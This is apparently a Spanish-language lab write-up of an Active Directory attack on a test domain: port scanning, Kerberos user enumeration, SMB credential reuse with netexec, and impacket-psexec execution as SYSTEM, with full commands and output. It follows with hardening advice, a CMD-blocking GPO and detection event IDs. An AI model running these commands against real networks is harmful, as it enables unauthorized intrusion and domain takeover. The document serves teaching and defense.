









Enumeración de un dominio hacklab.local, validación de usuarios por Kerberos, reutilización de credenciales sobre SMB y escalada a NT AUTHORITY\SYSTEM. Incluye la sección defensiva: bloqueo de CMD por GPO y su efecto real sobre el atacante.
Este laboratorio simula una red corporativa pequeña con un controlador de dominio Windows Server, un firewall perimetral pfSense y una estación de trabajo atacante Kali Linux. El objetivo es recorrer la cadena completa: desde el descubrimiento de hosts hasta el compromiso total del dominio, y después aplicar una contramedida defensiva real y medir su eficacia.
| Máquina | Rol | Dirección IP | Servicios clave |
|---|---|---|---|
| pfSense | Firewall perimetral y NAT | WAN + 192.168.1.1 | DHCP, DNS forwarder, reglas LAN |
| Windows Server | Controlador de dominio (AD DS, GPO) | 192.168.1.10 | Kerberos 88, LDAP 389, SMB 445 |
| Kali Linux | Estación del atacante | 192.168.1.20 | nmap, kerbrute, netexec, impacket |
Identidad del dominio: hacklab.local · NetBIOS HACKLAB. Usuarios de prueba creados en el laboratorio: thom1 y leslye, pertenecientes al OU RRHH.

Primer paso: confirmar que el segmento está vivo y localizar el controlador de dominio. Sobre una red con un DC Windows, el escaneo de puertos más rápidos ya delata el objetivo.
$ sudo nmap -sS -Pn --top-ports 1000 192.168.1.10 Starting Nmap 7.95 ( https://nmap.org ) Nmap scan report for 192.168.1.10 Host is up (0.0011s latency). Not shown: 92 filtered tcp ports (no-response) PORT STATE SERVICE 53/tcp open domain 88/tcp open kerberos-sec 135/tcp open msrpc 139/tcp open netbios-ssn 389/tcp open ldap 445/tcp open microsoft-ds 464/tcp open kpasswd5 636/tcp open ldapssl 3268/tcp open globalcatLDAP 5985/tcp open wsman MAC Address: 08:00:27:xx:xx:xx (Oracle VirtualBox)
La combinación 53 + 88 + 389 + 445 + 3268 es la firma clásica de un Domain Controller. El puerto 5985 (WinRM) también está abierto, lo que habilita ejecución remota si conseguimos credenciales válidas.

Antes de atacar hay que saber quién existe. Kerberos responde de forma distinta a un usuario válido que a uno inexistente, lo que permite enumerar cuentas sin autenticarse.
$ kerbrute userenum --dc 192.168.1.10 -d hacklab.local nombres.txt __ __ __ / /_____ _____/ /_ _______ __/ /____ / __/ _ \/ ___/ __ \/ ___/ / / / __/ _ \ / /_/ __/ / / /_/ / / / /_/ / /_/ __/ \__/\___/_/ /_.___/_/ \__,_/\__/\___/ [*] Valid user => thom1 [*] Valid user => leslye [*] Valid user => Administrator [ADMIN] [*] Valid user => krbtgt [ADMIN] [*] Saved 4 users to valid_users.txt [*] Done! Tested 120 usernames (4 valid) in 3.11 seconds


Con la lista de cuentas válidas y una contraseña filtrada del laboratorio, netexec (antes CrackMapExec) permite confirmar credenciales y listar el directorio en una sola pasada sobre SMB.
$ netexec smb 192.168.1.10 -u 'thom1' -p 'Developer3' --users SMB 192.168.1.10 445 DC01 [*] Windows Server 2022 Build 20348 (name:DC01) (domain:hacklab.local) SMB 192.168.1.10 445 DC01 [+] hacklab.local\thom1:Developer3 SMB 192.168.1.10 445 DC01 [*] Enumerated shares $ netexec smb 192.168.1.10 -u 'thom1' -p 'Developer3' --shares SHARE PERMISSION REMARK C$ READ,WRITE Default share ADMIN$ READ,WRITE Remote Admin NETLOGON READ Logon server share SYSVOL READ Logon server share


Con ADMIN$ accesible, la ejecución remota es directa. Impacket usa SMB para copiar y lanzar un servicio temporal que ejecuta el binario indicado con los privilegios más altos del sistema.
$ impacket-psexec hacklab.local/thom1:'Developer3'@192.168.1.10 Impacket v0.12.0 - Copyright Fortra, LLC [*] Requesting shares on 192.168.1.10..... [*] Found writable share ADMIN$ [*] Uploading file nXaPqLtm.exe [*] Opening SVCManager on 192.168.1.10..... [*] Creating service FzSP on 192.168.1.10..... [*] Starting service FzSP..... [!] Press help for extra shell commands Microsoft Windows [Version 10.0.20348.2402] C:\Windows\system32> whoami nt authority\system C:\Windows\system32> hostname DC01

El ataque no explotó una vulnerabilidad de software. Explotó decisiones de configuración. Ese es el punto clave para el lado defensivo.
La cuenta thom1 tenía acceso de escritura a ADMIN$. Los recursos administrativos deberían estar reservados a administradores de dominio, no a usuarios funcionales como los de RRHH.
La misma contraseña servía para el directorio y para el acceso SMB administrativo. Una credencial filtrada se convirtió en compromiso total, sin necesidad de ningún otro paso.
Kerberos revela qué cuentas existen. Es difícil de eliminar por completo, pero se mitiga con bloqueos por intentos fallidos, contraseñas robustas y políticas de auditoría del evento 4768.
El puerto 5985 abierto amplía la superficie de ejecución remota. En un DC debe restringirse por firewall a los segmentos de administración.
Además del endurecimiento de permisos, se aplicó una restricción visible y medible: impedir que los usuarios del OU RRHH abran el símbolo del sistema. Es una medida de defensa en profundidad — no detiene un ataque con credenciales administrativas, pero sí frena el uso interactivo y eleva el coste del post-explotación.
| Elemento | Valor |
|---|---|
| Nombre de la GPO | Bloquear-CMD-RRHH |
| Objeto vinculado | OU=RRHH,DC=hacklab,DC=local |
| Ruta de directiva | User Configuration → Policies → Administrative Templates → System |
| Directiva | Prevent access to the command prompt |
| Estado | Enabled · Disable the command prompt script processing also → Yes |

C:\Users\thom1> gpupdate /force Updating policy... User Policy update has completed successfully. Computer Policy update has completed successfully. C:\Users\thom1> cmd The command prompt has been disabled by your administrator. Press any key to continue . . .

| Evento | Qué revela |
|---|---|
| 4768 / 4769 | Autenticación Kerberos y solicitudes de servicio anómalas |
| 4625 | Fallos de autenticación repetidos (fuerza bruta / password spraying) |
| 4624 (tipo 3) | Inicios de sesión de red usados para movimiento lateral |
| 7045 | Instalación de servicios — firma típica de psexec |
| 4688 | Creación de procesos: cmd.exe, whoami, binarios desde ADMIN$ |
| Herramienta | Uso en este laboratorio |
|---|---|
| nmap | Descubrimiento de puertos y servicios del DC |
| kerbrute | Enumeración de usuarios válidos por Kerberos |
| netexec (nxc) | Validación de credenciales, listado de usuarios y shares |
| impacket | Ejecución remota vía SMB (psexec) |
| Group Policy Management | Creación y vinculación de la GPO defensiva |
Documentación oficial: Nmap reference guide · kerbrute · NetExec wiki · Impacket · Microsoft — Group Policy overview